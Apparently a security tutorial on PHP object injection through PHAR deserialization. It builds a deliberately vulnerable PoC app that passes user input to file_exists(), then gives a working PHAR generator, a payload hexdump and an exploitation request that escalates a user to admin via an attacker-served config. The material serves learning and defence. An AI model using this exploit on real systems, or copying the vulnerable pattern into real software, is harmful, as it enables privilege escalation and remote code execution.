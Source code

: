 #### 3.1. Intro

- PHP deserialization w/o `unsererialize()` using `phar` file archive
- involves file upload (malicious `phar`)
- contains serialized PHP object in compressed format
- payload may be delivered by any file format (embedded `phar://`)
- quick fix: disable `phar://` via `stream_wrapper_unregister('phar')`
- exploitation via `file_exists` + `phar://` + POP gadget (`__wakeup()` or `__destruct()` required)
- `file_put_contents()` in magic method + user input as parameters => RCE via PHP backdoor


#### 3.2. PHP nuggets
```
# php -S 127.0.0.1:8081 # run build-in PHP web server
# php -l file.php       # check for syntax errors
# php -a                # interactive PHP shell
```

#### 3.3. Create config file
```php
file_put_contents(
    'config.json',
    json_encode(
        [
            'settings' => [
                'user' => 'test',
                'is_admin' => false
            ]
        ]
    )
);
```
Produces: `{"settings":{"user":"test","is_admin":false}}`


#### 3.4. Main class for PoC app

This app loads the JSON config file into an object and logs users with administrative rights.

File `load_settings.php`:
```php
<?php
class UserSettings
{
    private $conf_file;
    private $settings;

    function __construct($conf_file) {
        $this->conf_file = $conf_file;
        $this->load_conf();
    }

    function __wakeup() {
       $this->load_conf();
    }

    function __destruct() {
       $s = $this->settings['settings'];
       if ($s['is_admin']) {
           echo "Admin user: ".$s['user'] . " was logged.";
       }
       // debug
       print_r($this);
    }

    private function load_conf() {
        $this->settings = json_decode(
            file_get_contents($this->conf_file),
            true
        );
    }
}

$f = $_GET['f'];
if (file_exists($f)) {
    $s = new UserSettings($f);
}
```

The default loaded config indicates privileges are not elevated:

```
# http 127.0.0.1:8081/load_settings.php?f=config.json -b
UserSettings Object
(
    [conf_file:UserSettings:private] => config.json
    [settings:UserSettings:private] => Array
        (
            [settings] => Array
                (
                    [user] => test
                    [is_admin] =>
                )
        )
)
```

#### 3.5. Writing a PHAR file for PHP object injection

Deserializaiton on PHAR files happens automagically via:

- `file_exists()`
- `getimagesize()`
- `is_file()`
- `is_dir()`
- `is_readable()`
- `is_writable()`


`php.ini` config must be modified to allow us create PHAR files:
```
# for i in `locate cli/php.ini | grep etc`; do sed -i 's/;phar.readonly = On/phar.readonly = Off/g' $i; done
# locate cli/php.ini | grep etc | xargs grep 'phar.' | grep -vE '^;'
phar.readonly = Off
``` 

The following will builds a `UserSettings` object where the config 
file points to an external resource controlled by the attacker.

PHAR generator `phar_generator.php`:
```php
<?php
class UserSettings {
    function __construct() {
        $this->conf_file = 'http://127.0.0.1:9999/config_666.json';
    }
}
$u = new UserSettings();

$phar = new Phar('data.phar');
$phar->startBuffering();
$phar->addFromString('data.txt', 'data');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->setMetadata($u);
$phar->stopBuffering();

# php phar_generator.php
```

For image format:
```
$phar->setStub('GIF8;<?php __HALT_COMPILER(); ?>');
```

The produced `phar` file is:
```
# hexdump -C data.phar
00000000  3c 3f 70 68 70 20 5f 5f  48 41 4c 54 5f 43 4f 4d  |<?php __HALT_COM|
00000010  50 49 4c 45 52 28 29 3b  20 3f 3e 0d 0a 8b 00 00  |PILER(); ?>.....|
00000020  00 01 00 00 00 11 00 00  00 01 00 00 00 00 00 55  |...............U|
00000030  00 00 00 4f 3a 31 32 3a  22 55 73 65 72 53 65 74  |...O:12:"UserSet|
00000040  74 69 6e 67 73 22 3a 31  3a 7b 73 3a 39 3a 22 63  |tings":1:{s:9:"c|
00000050  6f 6e 66 5f 66 69 6c 65  22 3b 73 3a 33 37 3a 22  |onf_file";s:37:"|
00000060  68 74 74 70 3a 2f 2f 31  32 37 2e 30 2e 30 2e 31  |http://127.0.0.1|
00000070  3a 39 39 39 39 2f 63 6f  6e 66 69 67 5f 36 36 36  |:9999/config_666|
00000080  2e 6a 73 6f 6e 22 3b 7d  08 00 00 00 64 61 74 61  |.json";}....data|
00000090  2e 74 78 74 04 00 00 00  a3 5e 83 5e 04 00 00 00  |.txt.....^.^....|
000000a0  63 f3 f3 ad a4 01 00 00  00 00 00 00 64 61 74 61  |c...........data|
000000b0  70 33 31 60 e5 b2 7c af  ef 4a ae 83 7d 49 a3 5b  |p31`..|..J..}I.[|
000000c0  f0 9d ce f1 02 00 00 00  47 42 4d 42              |........GBMB|
000000cc
```

#### 3.6. Exploitation

Generate attacker controlled config `config_666.json`:
```php
file_put_contents(
    'config_666.json',
    json_encode(
        [
            'settings' => [
                'user' => 'root',
                'is_admin' => true
            ]
        ]
    )
);
```

Serve the `http://127.0.0.1:9999/config_666.json` as follows:
```
# python -m http.server 9999
127.0.0.1 - - [NOLOGS] "GET /config_666.json HTTP/1.0" 200 -
```

Exploitation will load the malicious PHP object which points to the remote config 
file to elevate privileges in the application:
```
# http 127.0.0.1:8081/load_settings.php?f=phar://data.phar -b
UserSettings Object
(
    [conf_file:UserSettings:private] => phar://data.phar
    [settings:UserSettings:private] =>
)
Admin user: root was logged.UserSettings Object
(
    [conf_file:UserSettings:private] => http://127.0.0.1:9999/config_666.json
    [settings:UserSettings:private] => Array
        (
            [settings] => Array
                (
                    [user] => root
                    [is_admin] => 1
                )

        )

)
```
